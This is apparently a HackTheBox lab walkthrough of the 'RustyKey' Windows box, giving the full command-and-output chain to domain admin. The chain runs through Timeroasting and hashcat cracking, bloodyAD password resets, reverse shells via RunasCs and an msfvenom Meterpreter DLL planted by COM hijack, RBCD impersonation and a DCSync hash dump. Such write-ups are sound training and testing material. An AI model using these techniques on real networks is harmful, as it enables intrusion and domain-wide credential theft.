




# RustyKey

```
OS: Windows
Difficulty: Hard
Hint: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `rr.parker` | `nmap`, `nxc`, `impacket-getTGT` | Gained initial access to Active Directory using provided credentials and Kerberos authentication. |
| 2 | `rr.parker` | `nxc ldap`, `timeroast.py`, `hashcat` | Enumerated users via LDAP, exploited a Timeroasting vulnerability to dump hashes from computer accounts, and cracked the password for `IT-COMPUTER3$`. |
| 3 | `IT-COMPUTER3$` | `bloodyAD`, `impacket-getTGT`, `evil-winrm` | Used `bloodyAD` to remove the IT group from `PROTECTED OBJECTS` and reset `bb.morgan`'s password. Logged in with `evil-winrm` as `bb.morgan` to obtain `user.txt`. |
| 4 | `ee.reed` | `RunasCs`, `nc` | Found a PDF that hinted at the `SUPPORT` group's ability to modify the registry. Used `RunasCs` to escalate privileges to `ee.reed` and gain a PowerShell reverse shell. |
| 5 | `ee.reed` | `reg add`, `msfvenom` | Performed a COM Hijack by creating a malicious DLL with `msfvenom` and modifying the `InprocServer32` registry key for 7-Zip. This granted a Meterpreter session as `mm.turner`. |
| 6 | `mm.turner` | `Set-ADComputer` | Exploited Resource-based Constrained Delegation (RBCD) by using `mm.turner`'s permissions to configure the Domain Controller's computer object to delegate to `IT-COMPUTER3$`. |
| 7 | `backupadmin` | `impacket-getST`, `impacket-wmiexec` | Used `impacket-getST` to impersonate `backupadmin` via Kerberos delegation and gained a shell with `impacket-wmiexec`. |
| 8 | `administrator` | `impacket-secretsdump`, `impacket-getTGT`, `evil-winrm` | Performed a DCSync attack to dump all domain user hashes, including the `Administrator`'s. Used the `Administrator`'s hash to log in with `evil-winrm`, gaining full control over the domain controller. |


As is common in real-life Windows penetration tests, you will start the RustyKey box with credentials for the following account: rr.parker/8#t5HE8L!W3A


#### Nmap


The Nmap scan reveals several open ports and services, indicating an Active Directory environment.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nmap rustykey.htb -A
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 13:48:41Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
GetTGT (rr.parker)
```
The provided credentials cannot be used directly for authentication via SMB or LDAP.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc smb 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A'
SMB         10.10.11.75     445    NONE             [*]  x64 (name:) (domain:) (signing:True) (SMBv1:False)
SMB         10.10.11.75     445    NONE             [-] \rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A'
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [-] rustykey.htb\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
```
To improve client configuration, the /etc/krb5.conf file is modified.
```
[xpl0riz0n㉿XPl0RIz0n] /home/kali  ❯ cat /etc/krb5.conf
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    ticket_lifetime = 24h
    forwardable = true
[realms]
    RUSTYKEY.HTB = {
        kdc = 10.10.11.75
    }
[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

**Access Restricted by HackTheBox Rules**


A Kerberos ticket is requested for authentication.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'rr.parker':'8#t5HE8L!W3A'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in rr.parker.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//rr.parker.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
```
**User Enumerate**

Using the Kerberos ticket, the domain users are enumerated.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nxc ldap 10.10.11.75 -u 'rr.parker' -p '8#t5HE8L!W3A' -k --users
LDAP        10.10.11.75     389    dc.rustykey.htb  [*]  x64 (name:dc.rustykey.htb) (domain:rustykey.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.75     389    dc.rustykey.htb  [+] rustykey.htb\rr.parker:8#t5HE8L!W3A
LDAP        10.10.11.75     389    dc.rustykey.htb  [*] Enumerated 11 domain users: rustykey.htb
LDAP        10.10.11.75     389    dc.rustykey.htb  -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.75     389    dc.rustykey.htb  Administrator                 2025-06-04 22:52:22 3       Built-in account for administering the computer/domain
LDAP        10.10.11.75     389    dc.rustykey.htb  Guest                         <never>             0       Built-in account for guest access to the computer/domain
LDAP        10.10.11.75     389    dc.rustykey.htb  krbtgt                        2024-12-27 00:53:40 0       Key Distribution Center Service Account
LDAP        10.10.11.75     389    dc.rustykey.htb  rr.parker                     2025-06-04 22:54:15 1
LDAP        10.10.11.75     389    dc.rustykey.htb  mm.turner                     2024-12-27 10:18:39 0
LDAP        10.10.11.75     389    dc.rustykey.htb  bb.morgan                     2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  gg.anderson                   2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  dd.ali                        2025-06-29 14:16:40 1
LDAP        10.10.11.75     389    dc.rustykey.htb  ee.reed                       2025-06-29 14:16:40 0
LDAP        10.10.11.75     389    dc.rustykey.htb  nn.marcos                     2024-12-27 11:34:50 1
LDAP        10.10.11.75     389    dc.rustykey.htb  backupadmin                   2024-12-30 00:30:18 1
```
### Timeroasting to Hash Leak
Prerequisites for using Timeroasting:

The target must be a computer account.

The domain controller must have an NTP service with Microsoft SNTP extensions enabled on UDP port 123.

The attacker can send unauthenticated MS-SNTP requests to the DC.

The attacker can enumerate the RIDs (Relative Identifiers) of computer accounts in the domain.

**(Optional) For "Targeted Timeroasting," domain administrator privileges are needed to temporarily modify user account properties.**

The computer account passwords in the domain are not strongly protected.

The timeroast.py script is used to leak hashes.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN//Timeroast (main) ❯ python timeroast.py 10.10.11.75
1000:$sntp-ms$541e56ee0785292844cd3a4d402b543b$1c0111e900000000000a104f4c4f434cec0d09c525a2d227e1b8428bffbfcd0aec0d1f45ed925501ec0d1f45ed927b98
1103:$sntp-ms$885a139fd759d37417664243783bbd2e$1c0111e900000000000a104f4c4f434cec0d09c5255a3d63e1b8428bffbfcd0aec0d1f4691626479ec0d1f4691627392
1104:$sntp-ms$50db9bcbb01364753a51d9ad87334e7a$1c0111e900000000000a104f4c4f434cec0d09c525d23c78e1b8428bffbfcd0aec0d1f4691da6033ec0d1f4691da77b0
1105:$sntp-ms$b21dd12e2f54ba103173276b52ac5a28$1c0111e900000000000a10504c4f434cec0d09c525d5ced4e1b8428bffbfcd0aec0d1f4691ddef33ec0d1f4691de085e
1107:$sntp-ms$72c064df6565397579c07a123fa9a581$1c0111e900000000000a10504c4f434cec0d09c523da9288e1b8428bffbfcd0aec0d1f46a3da7b0bec0d1f46a3da9c99
1106:$sntp-ms$523e1fbcb109b13c7c03f77fb94b0abf$1c0111e900000000000a10504c4f434cec0d09c523d78b6ce1b8428bffbfcd0aec0d1f46a3d7617bec0d1f46a3d79c33
1119:$sntp-ms$33ebfc2674e7536ed6d154a740325d72$1c0111e900000000000a10504c4f434cec0d09c52483a464e1b8428bffbfcd0aec0d1f46b87b692cec0d1f46b87b79f3
1120:$sntp-ms$d5261b4a237d17e07add187f73bf05df$1c0111e900000000000a10504c4f434cec0d09c524956dbae1b8428bffbfcd0aec0d1f46b88d2f28ec0d1f46b88d44f7
1121:$sntp-ms$dd30728f5ecc625b7ee31e136619b14f$1c0111e900000000000a10504c4f434cec0d09c524976866e1b8428bffbfcd0aec0d1f46b88f231eec0d1f46b88f42fe
1118:$sntp-ms$2e21c9e9b562fce0810a6758164a4ebd$1c0111e900000000000a10504c4f434cec0d09c524787ce9e1b8428bffbfcd0aec0d1f46b8703298ec0d1f46b8705780
1122:$sntp-ms$5204997edea3423b2673aec76ca560b1$1c0111e900000000000a10504c4f434cec0d09c524a5da19e1b8428bffbfcd0aec0d1f46b89d9323ec0d1f46b89db156
1123:$sntp-ms$06b411c3bf92a0cf9bb14491d1fb7ef0$1c0111e900000000000a10504c4f434cec0d09c524d3f4dfe1b8428bffbfcd0aec0d1f46b8cb8e08ec0d1f46b8cbcf76
1125:$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052
1124:$sntp-ms$5e8f8d7411278b141ef09ef40a58197f$1c0111e900000000000a10504c4f434cec0d09c523087d7de1b8428bffbfcd0aec0d1f46bb18cba8ec0d1f46bb18ed36
1126:$sntp-ms$31ac85d513769160227bdd504d415377$1c0111e900000000000a10504c4f434cec0d09c523191f8be1b8428bffbfcd0aec0d1f46bb296c0aec0d1f46bb298bea
1127:$sntp-ms$2bb6c5485dbbd37c5cec188a04944677$1c0111e900000000000a10504c4f434cec0d09c523251208e1b8428bffbfcd0aec0d1f46bb356034ec0d1f46bb358014
```
Hashcat is used to crack the password for the hash with RID 1125.
```
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec
$sntp-ms$d7e7fef91094a412a2e8cb82c7716f1a$1c0111e900000000000a10504c4f434cec0d09c52308c3f3e1b8428bffbfcd0aec0d1f46bb191728ec0d1f46bb193052:R....y88!
```
Approaching final keyspace - workload adjusted.
The cracked password is R.....!, which corresponds to the computer account with RID 1125, IT-CONPUTER3$.

Bloodhound
Bloodhound is used to enumerate the domain and identify potential attack paths.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodhound-python  -u 'rr.parker' -p '8#XXXXXXX!W3A' -k -d rustykey.htb -ns 10.10.11.75 -c ALl --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 13 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer:
...
WARNING: DCE/RPC connection failed: [Errno Connection error (10.10.11.75:445)] timed out
...
INFO: Done in 01M 37S
INFO: Compressing output into 20250701095916_bloodhound.zip
```


View external permissions





AddSelf to Helpdesk
Using the IT-COMPUTER3$ account, a Kerberos ticket is obtained.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'IT-COMPUTER3$':'R.....!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in IT-COMPUTER3$.ccache
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache
```
The IT-COMPUTER3$ account is then added to the HELPDESK group.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
Change Password & GetTGT (Failed)

An attempt is made to change bb.morgan's password.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password bb.morgan 'Abc123456@'
[+] Password changed successfully!
```
However, a Kerberos ticket cannot be obtained for bb.morgan. This is likely because the HELPDESK group is part of PROTECTED OBJECTS.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'bb.morgan':'Abc123456@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```


To proceed, the IT group is removed from PROTECTED OBJECTS.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```
The password for bb.morgan is changed again, and this time, a Kerberos ticket is successfully obtained.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password bb.morgan 'Abc123456@'
[+] Password changed successfully!

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'bb.morgan':'Abc123456@'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in bb.morgan.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//bb.morgan.ccache
```

Finally, a shell is obtained using evil-winrm.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ evil-winrm -i dc.rustykey.htb -u 'bb.morgan' -r rustykey.htb
Evil-WinRM shell v3.7
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> type ../desktop/user.txt
<hidden>
PDF in Desktop
A PDF file named internal.pdf is found on the desktop.

*Evil-WinRM* PS C:\Users\bb.morgan\desktop> ls
Directory: C:\Users\bb.morgan\desktop
Mode                LastWriteTime         Length Name
----                -------------         ------ -----
a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---         7/1/2025   2:54 AM             34 user.txt
*Evil-WinRM* PS C:\Users\bb.morgan\desktop> download internal.pdf
Info: Downloading C:\Users\bb.morgan\desktop\internal.pdf to internal.pdf
```



**Owned! bb.morgan**

The PDF states that the SUPPORT group has been granted extended permissions to test file archiving functions and may make registry adjustments. The user EE.REED is in the SUPPORT group and the PROTECTED OBJECTS group.


Remove SUPPORT from Protection

Similar to the previous step, the SUPPORT group is removed from PROTECTED OBJECTS.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
```
The password for ee.reed is changed.
```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'R.....!' set password ee.reed 'Abc123456@'
[+] Password changed successfully!
```
However, logging in directly with ee.reed fails.

**RunasCs (ee.reed)**

RunasCs.exe is uploaded to the target machine and used to spawn a reverse shell as ee.reed.

```
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload /home/xpl0riz0n/ctf_OpenVPN//RunasCs.exe
Info: Uploading /home/xpl0riz0n/ctf_OpenVPN//RunasCs.exe to C:\Users\bb.morgan\Documents\RunasCs.exe
Data: 68948 bytes of 68948 bytes copied
Info: Upload successful!
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\RunasCS.exe ee.reed Abc123456@ powershell.exe -r 10.10.16.47:6666
...
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 6836 created in background.
A listener on the attacker machine receives the connection.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.47] from (UNKNOWN) [10.10.11.75] 62377
Windows PowerShell Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\Windows\system32> whoami
rustykey\ee.reed
PS C:\Windows\system32>
COM Hijack
The PDF mentioned registry adjustments related to compression. A search for COM components related to "zip" is performed.

PS C:\tmp> reg query HKCR\CLSID /s /f "zip"
...
HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension
HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll
...
End of search: 14 match(es) found.
```

msfvenom is used to create a malicious DLL for a reverse Meterpreter shell.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.47 LPORT=4444 -f dll -o hack.dll
...
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: hack.dll
```

The malicious DLL is uploaded, and the registry key for the 7-Zip Shell Extension is modified to point to it.

```
PS C:\tmp> reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\tmp\hack.dll" /f
The operation completed successfully.
```
A Meterpreter listener is started, and a session is opened when the registry key is triggered. The session reveals the user mm.turner.


```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.47:4444
[*] Sending stage (203846 bytes) to 10.10.11.75
[*] Meterpreter session 1 opened (10.10.16.47:4444 -> 10.10.11.75:62445) at 2025-07-01 11:32:19 -0400
meterpreter > getuid
Server username: RUSTYKEY\mm.turner
meterpreter >
RBCD
The mm.turner account has AddAllowedToAct permissions. This allows for a Resource-based constrained delegation (RBCD) attack. The IT-COMPUTER3$ account is used to impersonate the backupadmin account.

meterpreter > shell
Process 11164 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell.exe
powershell.exe
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```



A service ticket is requested for the backupadmin account, impersonating it.


```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//IT-COMPUTER3\$.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip 10.10.11.75 -k 'rustykey.htb/IT-COMPUTER3$:R.....!'
...
[*] Saving ticket in backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

Finally, wmiexec is used to get a shell as backupadmin.

```
[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-wmiexec -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
...
C:\>whoami
rustykey\backupadmin
C:\>
DCsync
With backupadmin privileges, a DCSync attack is performed to dump all domain credentials, including the administrator's hash.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-secretsdump -k -no-pass 'rustykey.htb/backupadmin@dc.rustykey.htb'
...
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<hidden>:::
...
A Kerberos ticket is requested for the administrator account using the dumped hash.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ impacket-getTGT rustykey.htb/'Administrator' -hashes ":<hidden>"
[*] Saving ticket in Administrator.ccache

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ export KRB5CCNAME=/home/xpl0riz0n/ctf_OpenVPN//Administrator.ccache
A final evil-winrm session is opened as the administrator.

[xpl0riz0n㉿XPl0RIz0n] /home/xpl0riz0n/ctf_OpenVPN/  ❯ evil-winrm -i dc.rustykey.htb -u 'Administrator' -r rustykey.htb
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rustykey\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```




**Pwned! RustKey**